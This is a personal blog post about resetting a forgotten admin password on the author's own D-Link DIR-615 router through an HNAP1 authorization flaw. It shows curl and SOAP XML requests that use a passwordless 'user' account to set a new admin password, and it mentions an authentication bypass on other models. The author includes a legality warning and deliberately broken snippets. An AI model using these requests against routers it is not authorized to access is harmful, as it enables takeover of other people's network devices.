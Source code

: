 ```yaml
---
title: Exploiting a HNAP1 security flaw on my D-Link DIR-615 router
tags: [security, network]
date: 2018-03-26
language: en
...
```


Because some wifi devices had connection issues with my "normal"
router (with an integrated wifi access point) I decided to integrate
an old D-Link DIR-615 router (with ap) I had still lying around into
my wifi network and see whether the connection quality would improve.

Unfortunately I couldn't remember the admin password I set when that
router was still in use.  That was kind of a déjà vu because I faced
the same issue once when the router was still in use, too.  Back then
I couldn't access the reset button due to the device being fixed to
the wall.  And pressing the reset button is boring either way, no?

*Attention: IANAL, but doing the following with a device that you do
not own or don't have explicit (written) consent of the owner to
perform these steps is illegal in probably all parts of the world.
Moreover it's probably possible to "brick" - permanently damage - your
device.*


The ["Home Network Administration Protocol"][HNAP] allows querying and
setting of configuration options on network devices (such as
routers).  It's based on SOAP which effectively means that you're
sending HTTP POST messages with a special header and some XML.

For HNAP1 the special header is a:

~~~
SOAPAction: "http://purenetworks.com/HNAP1/GetDeviceSettings"
~~~

where the `GetDeviceSettings` part specifies what action you want to
perform on the accessed device.

~~~xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:xsd="http://www.w3.org/2001/XMLSchema"
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <soap:Body>
    <GetDeviseSettings xmlns="http://purenetworks.com/HNAP1/">
    </GetDeviseSettings>
  </soap:Body>
  <!-- Header: -->
  <!-- SOAPAction: "http://purenetworks.com/HNAP1/GetDeviceSettings" -->
</soap:Envelope>
~~~

Sending the above with 

~~~bash
curl -X POST \
  --header "SOAPAction: \"http://purenetworks.com/HNAP1/GetDeviceSettings\"" \
  --header "Authorization Basic dXNlcjo=" \
  --data @above_xml_in_a_file.xml
~~~

returns some XML with device information as well as supported SOAP
actions on my DIR-615.

What's that `Authorization` header?  That's just [basic HTTP
authentication][basic-auth] for a `user` account and an empty
password:

[basic-auth]: https://en.wikipedia.org/wiki/Basic_access_authentication

~~~bash
echo -n "user:" | base64
# dXNlcjo=
~~~

Now, on some other D-Link routers one can apparently fool the HNAP
implementation by providing a `SOAPAction` header that doesn't require
authentication (like `GetDeviceSettings`) but specify an action (which
will then get executed by the device) in the XML that would've
required authentication (like `SetDeviceSettings` for changing the
admin password) - and thus bypass any authentication or authorization.

That's not the case for my DIR-615: it *always* requires
authentication.  Moreover, it also *always* executes the action
specified in the `SOAPAction` header.  *But* it doesn't check whether
the authenticated client is **authorized** to execute that action.
Put simply: That `user` account with no password can do everything the
admin can do.

So, to change the admin password all that needed was sending

~~~xml
<!-- ... -->
<SetDeviseSettings xmlns="http://purenetworks.com/HNAP1/">
    <AdminPassword>password</AdminPassword>
</SetDeviseSettings>
<!-- ... -->
~~~

*Note: Errors in the code snippets shown on this page are
intentional.  Don't copy and paste; think about what you want to do
and whether it's okay to do.*

[HNAP]: https://en.wikipedia.org/wiki/Home_Network_Administration_Protocol
